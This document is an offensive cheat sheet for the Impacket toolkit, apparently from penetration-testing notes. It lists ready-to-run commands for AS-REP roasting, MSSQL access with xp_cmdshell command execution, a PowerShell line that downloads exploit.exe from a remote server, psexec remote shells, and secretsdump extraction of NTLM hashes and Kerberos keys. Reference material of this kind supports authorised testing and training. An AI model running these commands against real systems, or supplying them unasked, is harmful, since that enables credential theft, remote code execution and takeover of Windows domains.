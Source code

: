 ```yaml
---
title: Impacket
desc: Provides low level access to the packets. It also used to connect Microsoft SQL.
tags: [ActiveDirectory, ActiveRecon, MSSQL, Windows]
alts: [Bloodhound, Kerbrute, Mimikatz]
website:
render_with_liquid: false
---
```


```sh
impacket-netview -h
```

<br />

## impacket-GetNPUsers

Lists users and passwords is not required Kerberos pre auth. Used for ASREPRoasting.

```sh
# Get password (e.g. domain: 'example.local', username: 'admin')
impacket-GetNPUsers -dc-ip 10.0.0.1 -format hashcat example.local/admin
```

<br />

## impacket-mssqlclient

Establish an authenticated connection to Microsoft SQL.

```sh
impacket-mssqlclient -port 1433 DOMAIN/username:password@10.0.0.1 -windows-auth

# ------ Logged in ---------------------------------------------

SQL> enable_xp_cmdshell
SQL> disable_xp_cmdshell

# Execute commands
SQL> xp_cmdshell whoami
SQL> xp_cmdshell dir
SQL> xp_cmdshell .\exploit.exe
SQL> xp_cmdshell "powershell.exe pwd"
# Get files from external server
SQL> xp_cmdshell "powershell.exe wget -UseBasicParsing http://10.0.0.1:8000/exploit.exe -OutFile c:\\Users\Public\exploit.exe"
```

<br />

## impacket-psexec

Interactive shell on Windows host.

```sh
impacket-psexec username:password@10.0.0.1
```

<br />

## impacket-secretsdump

Gets all password hashes.

```sh
# Basic
impacket-secretsdump example.local/admin:admin@10.0.0.1

# Only NTLM hashes and Kerberos keys
impacket-secretsdump -just-dc example.local/admin:admin@10.0.0.1

# Only NTLM hashes
impacket-secretsdump -just-dc-ntlm example.local/admin:admin@10.0.0.1
```